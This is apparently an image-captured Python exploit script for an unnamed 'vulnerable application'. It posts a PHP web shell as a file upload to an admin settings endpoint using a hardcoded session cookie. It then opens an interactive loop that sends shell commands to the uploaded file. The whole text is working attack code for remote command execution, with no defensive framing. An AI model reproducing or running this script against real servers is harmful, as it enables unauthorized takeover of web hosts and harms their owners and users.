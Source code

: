 ```python
cookies = {'PHPSESSID': 'd794ba06fcba883d6e9aaf6e528b0733'}

LINK=input("Enter URL of The Vulnarable Application : ") ←


def webshell(LINK, session):
    try:
        WEB_SHELL = LINK+'/assets/img/'+filename ←
        getdir  = {'cmd': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print (Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL)
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = input(term)
            command = {'cmd': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)


#Creating a PHP Web Shell

phpshell  = {
               'img':
                  (
                   'shell.php',
                   '<?php echo shell_exec($_REQUEST["cmd"]); ?>', ←
                   'application/octet-stream',
                  {'Content-Disposition': 'form-data'}
                  )
             }

# Defining value for form data
data = {'name':'test', 'email':'info@sample.com', 'contact':'+6948 8542 623','about':'hello world'}


def id_generator():
    x = datetime.datetime.now()
    date_string = x.strftime("%y-%m-%d %H:%M")
    date = datetime.datetime.strptime(date_string, "%y-%m-%d %H:%M")
    timestamp = datetime.datetime.timestamp(date)
    file = int(timestamp)
    final_name = str(file)+'_shell.php' ←
    return final_name

filename = id_generator()
#Uploading Reverse Shell
print("[*]Uploading PHP Shell For RCE...")
upload = s.post(LINK+'admin/ajax.php?action=save_settings', cookies=cookies, files=phpshell, data=data) ←
```